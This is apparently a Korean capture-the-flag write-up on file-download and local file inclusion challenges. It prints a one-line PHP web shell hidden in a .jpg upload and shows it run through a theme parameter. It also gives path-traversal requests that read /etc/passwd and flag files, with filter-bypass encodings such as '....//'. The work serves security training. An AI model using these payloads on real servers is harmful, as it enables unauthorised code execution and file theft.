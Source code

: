 ```yaml
---
title: "File Download & LFI"
date: 2025-07-25
layout: single
toc: true
toc_label: "File Download & LFI"
toc_icon: "book"
toc_sticky: true
tags: [web, file download, lfi, hacking]
header:
  teaser: /assets/images/file-download.png
---
```


# 개요

이 페이지는 File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록입니다.

실습에서는 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룹니다.

---

# 문제 풀이 정리

## Web Shell

![글쓰기](/assets/web-screenshots/file-download-lfi/web_shell_create.png)

대상 웹 애플리케이션에는 게시글 작성 기능이 있으며, 이 중 파일 업로드 입력란이 존재한다.

![업로드 실패](/assets/web-screenshots/file-download-lfi/web_shell_upload_fail.png)

위와 같이 `.php` 확장자를 가진 파일을 업로드할 경우, **업로드가 허용되지 않는 파일 형식입니다.** 라는 메시지가 출력되며 업로드가 차단된다.

후에 Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등 다양한 우회 기법을 시도하였으나, 모두 서버 측 필터링에 의해 차단되었다.

![업로드 성공](/assets/web-screenshots/file-download-lfi/web_shell_upload.png)

서버가 `.php` 확장자의 파일 업로드를 차단하고 있기 때문에, 우회 방식으로 `.jpg` 확장자의 파일에 PHP 코드를 삽입한 뒤 업로드하였다.

**페이로드:**
```php
<?php echo system($_GET['cmd']); ?>
```

이후 **LFI 취약점**을 통해 해당 파일이 `include` 되도록 유도함으로써, 서버가 이를 PHP로 처리하게 만들고 코드 실행을 시도한다.

![의심 발견](/assets/web-screenshots/file-download-lfi/web_shell_parameter.png)

Burp Suite를 활용하여 웹 여러 요청을 확인한 결과,

`theme=modern.php`라는 값이 클라이언트 → 서버로 전송되며, 응답에서도 해당 테마 이름이 다시 응답에서도 해당 테마 이름이 다시 `Set-Cookie` 에 포함되는 구조를 확인하였다.

이로 인해 서버 측에서 `theme` 파라미터를 기반으로 동적으로 PHP 파일을 `include` 하거나 로딩할 가능성이 있는 것으로 보여져,
업로드한 파일에 대한 경로를 지정함으로써 **LFI 공격**이 가능한지 테스트를 진행하였다.

![/etc/passwd](/assets/web-screenshots/file-download-lfi/web_shell_passwd.png)

`theme` 파라미터에 `../../../../etc/passwd` 값을 삽입한 결과, 응답 본문에 리눅스 시스템의 `/etc/passwd` 파일 내용이 출력되었다.

이를 활용하여 업로드된 웹쉘 파일(`shell.jpg`)의 경로를 LFI 지점에 삽입하여 포함시키는 방식으로 코드 실행을 시도한다.

![공격 성공](/assets/web-screenshots/file-download-lfi/web_shell_success.png)

`page=mypage&cmd=ls` 파라미터를 통해 쉘 명령이 정상적으로 실행되었으며, 서버 내부의 디렉토리 및 파일 목록이 출력되는 것을 확인할 수 있었다.

**이제 시스템 내에 저장된 플래그 파일의 위치를 찾기 위해 다음 명령어를 실행하였다:**

```bash
find / -name "flag.txt" 2>/dev/null
```

`flag.txt` 파일의 위치를 확인한 뒤, `cat` 명령어를 통해 해당 파일의 내용을 출력하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/web_shell_flag.png)

이렇게 최종적으로 플래그를 획득 하였다.

---

## Get Flag File

![글 쓰기](/assets/web-screenshots/file-download-lfi/get_file1_create.png)

이번에도 파일 업로드 기능이 존재하나, `.php`를 포함한 모든 스크립트 계열 확장자에 대해 업로드가 차단되어 있으며, 

확장자 우회 기법(예: Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등) 역시 모두 필터링되는 강력한 보안 정책이 적용되어 있는 상태이다.

![다운로드 경로](/assets/web-screenshots/file-download-lfi/get_file1_path.png)

Burp Suite를 이용해 업로드된 게시글의 응답 데이터를 분석한 결과, HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있는 것을 확인하였다.

위 경로를 이용하여 접속을 한 후 Burp Suite로 분석을 해보았다.

![다운로드 경로 2](/assets/web-screenshots/file-download-lfi/get_file1_path2.png)

Burp Suite를 통해 `download` 파라미터에 업로드된 파일 경로(`/var/www/html/uploads/4_shell.jpg`)를 직접 요청한 결과, HTTP 응답 본문에 파일 내부에 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있는 것을 확인하였다.

이로 인해 서버가 해당 파일을 PHP로 실행하지 않고 단순 **텍스트 파일로 처리하여 반환**하고 있다는 점을 알 수 있었으며, 이는 곧 파일 내의 임의 코드 노출이 가능하다는 것을 의미한다.

첫 번째 시도로 `/etc/passwd` 경로를 포함시켜 시스템 내 파일 접근 가능성을 검증하였다.

**Burp Suite를 이용하여 다음과 같은 요청을 전송하였다:**

```yaml
GET /index.php?page=download&filePath=../../../../etc/passwd
```

![/etc/passwd](/assets/web-screenshots/file-download-lfi/get_file1_passwd.png)

그 결과, 서버는 `HTTP 200 OK` 응답과 함께 `/etc/passwd` 파일의 내용을 반환하였다. 

이는 서버 측에서 사용자 입력에 대해 별도의 경로 제한이나 필터링 없이 파일을 읽고 응답으로 전달하고 있음을 의미하며, **명확한 LFI 취약점(Local File Inclusion)** 으로 판단된다.

앞선 LFI 취약점을 활용해, 이번에는 웹 애플리케이션 루트 디렉터리에 존재하는 `flag.txt` 파일을 직접 열람하여 내부에 포함된 플래그 값을 확인하고자 하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/get_file1_flag.png)

이렇게 웹 애플리케이션 내부에 존재하던 `flag.txt` 파일에 접근하고, 최종적으로 플래그 값을 성공적으로 획득하였다.

---

## Get Flag File 2

이번 문제 역시 이전 문제와 유사하게, 다운로드 기능을 기반으로 한 LFI 취약점(Local File Inclusion) 취약점을 중심으로 구성되어 있다.

![다운로드 경로](/assets/web-screenshots/file-download-lfi/get_file2_path.png)

Burp Suite를 통해 응답 본문을 분석한 결과, 이전 문제와 똑같이 HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있었고.

![공격 성공](/assets/web-screenshots/file-download-lfi/get_file2_success.png)

파일이 다운로드 되는 파일 경로를 통해 Burp Suite로 분석 결과, 해당 파일의 응답 본문에는 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있었다.

이를 통해 서버가 해당 파일을 실행하지 않고 단순히 텍스트 파일로 반환하고 있음을 확인하였으며, 이를 기반으로 `/etc/passwd`와 같은 시스템 파일에 대한 접근이 가능한지 여부를 테스트하였다.

![/etc/passwd](/assets/web-screenshots/file-download-lfi/get_file2_passwd.png)

기본적인 `../` 상대 경로를 통한 디렉터리 상위 이동은 서버 측 필터링으로 인해 차단되었다.

이에 따라 다양한 URL 인코딩 기반 우회 기법을 적용하여 경로 우회 가능성을 테스트하였다.

**테스트한 우회 기법은 다음과 같다:**
 - `%252e` → `%2e`로 디코딩되는 Double Encoding
 - `....//` → 중첩 경로를 통한 우회
 - `%2e%2e%2f`, `..%2f..%2f..%2fetc/passwd` 등

이 중, `....//` 방식이 서버에서 유효하게 처리되어, 다음과 같은 요청으로 LFI에 성공하였다.

앞서 확인한 URL 인코딩 기반의 디렉터리 우회 기법(`....//`)을 활용하여, 웹 서버 루트 디렉터리에 존재하는 `flag.txt` 파일에 대한 직접 접근을 시도하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/get_file2_flag.png)
 
최종적으로 `flag.txt` 파일 내 플래그를 획득하였다.
